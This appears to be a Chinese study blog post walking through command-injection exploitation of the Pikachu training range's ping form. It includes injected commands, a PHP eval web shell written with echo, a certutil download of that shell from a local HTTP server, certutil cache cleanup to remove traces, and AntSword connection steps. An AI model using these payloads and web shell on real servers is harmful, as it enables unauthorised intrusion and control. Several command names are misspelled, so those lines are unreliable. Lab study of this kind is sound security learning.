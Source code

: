 ```yaml
---
title: 信息安全学习-RCE
tags:
  - 信息安全
readmore: true
date: 2023-02-09 11:18:31
---
```


### 简介

RCE漏洞，可以让攻击者直接向后台服务器远程注入操作系统命令或者代码，从而控制后台系统。因为需求设计,后台有时候也会把用户的输入作为代码的一部分进行执行，也就造成了远程代码执行漏洞。

<!-- more -->

### 环境搭建

环境使用 pikachu 的靶场，下载地址：https://github.com/zhuifengshaonianhanlu/pikachu

安装方式可自行百度，推荐使用 phpstudy 创建网站，方便快捷。

### ping 命令漏洞

打开 pikachu 靶场中的 RCE -> exec "ping"，在表单中输入 127.0.0.1 可以看到回显，说明执行了 ping 127.0.0.1 的命令。

#### 测试漏洞

紧接着使用 && 连接符在 127.0.0.1 的后面连接上 whoami 命令

```bash
127.0.0.1 && whoami
# whoami 作用是查看操作系统的用户名
# && 连接符，当前面的命令执行后，后面的命令才会执行
```

可以看到两个命令全都执行了，说明这个位置有漏洞，我们可以加以利用。

#### 创建一句话木马(直接写入文件)

输入新的命令：

```bash
127.0.0.1 && echo "<?=eval($_POST['cmd']);?>" > shell.php
# echo 输出字符串
# $_POST['cmd'] 接受来自 POST 请求且参数名为 cmd 的值
# eval() 执行接收到的字符串
# > 将内容输入到指定的文件中
```

此时就在该页面的位置创建了一个 shell.php 文件并输入对应内容。

#### 创建一句话木马(文件下载方式)

除了使用 echo 这种直接写入的办法，还可以使用 certutil 命令从远处下载木马文件。

##### 启动本地服务器

这种方法需要拥有一个服务器，从服务器上下载文件；练习时我们使用 Python 来创建一个本地服务器作为演示。

在安装好 Python 后，创建一个文件夹并创建 shell.php 文件，写入上文的一句话木马。

**目录不要包含中文**

打开命令行输入命令：

```bash
python -m http.server 8080
# -m 将 python 中的模块当作脚本运行
# 8080 服务启动的端口
```

服务器启动成功~

##### 访问本地服务器

输入命令查看自己电脑的 ip：

```bash
# windows
ipconfig
# linux
iconfig
```

**注意 Windows 和 Linux 查看 ip 的命令不同**

在浏览器输入：

```bash
http://192.168.31.195:8080/
```

成功访问后可以看到一个 shell.php 文件。

##### 下载文件

在靶场的表单中输入：

```bash
127.0.0.1 && certutil -urlcache -f -split http://192.168.31.195:8080/shell.php
# -urlcache 显示或删除URL缓存条目
# -f 覆盖的现有文件，后面要跟着下载文件的 url
# -split 保存到文件
# 杀毒软件可能会报毒，因为是自己的命令，我们就允许它执行
```

看到页面有其他的显示，说明文件已经下载成功~

##### 删除下载缓存

certuril 命令有一个弊端就是下载文件后会保留缓存。

输入命令查看缓存：

```bash
certutil -urlcache *
# 查看所有缓存
cerutil -urlcache 192
# 查看包含 192 字符串的缓存
```

输入命令删除缓存：

```bash
certutil -urlcache * delete
# 删除所有缓存
certuil -urlcache 192 delete
# 删除包含 192 字符串的缓存
```

#### 蚁剑连接后台

成功上传一句话木马后，使用蚁剑进行连接。

蚁剑源码下载地址：https://github.com/AntSwordProject/antSword

蚁剑启动器下载地址：https://github.com/AntSwordProject/AntSword-Loader

将蚁剑源码解压后，打开启动器目录选择刚刚的源码文件，稍等片刻会成功启动。

也可以直接使用启动器下载；若遇到解压失败的情况，给予源码的文件夹所有权限即可。 

启动后，在蚁剑空白处右键，选择添加数据；

![](https://pic.mewhz.com/rce/1.png)

在基础配置中的 url 地址，输入靶场中木马所在的 url；

连接密码输入 cmd，即刚刚木马中 $_POST 的参数；

![](https://pic.mewhz.com/rce/2.png)

单击测试连接，显示连接成功后，单击添加；

右键刚刚添加的记录，选择文件管理就可以对木马所在的服务器进行文件操作；

![](https://pic.mewhz.com/rce/3.png)

![](https://pic.mewhz.com/rce/4.png)



仅供学习交流使用~
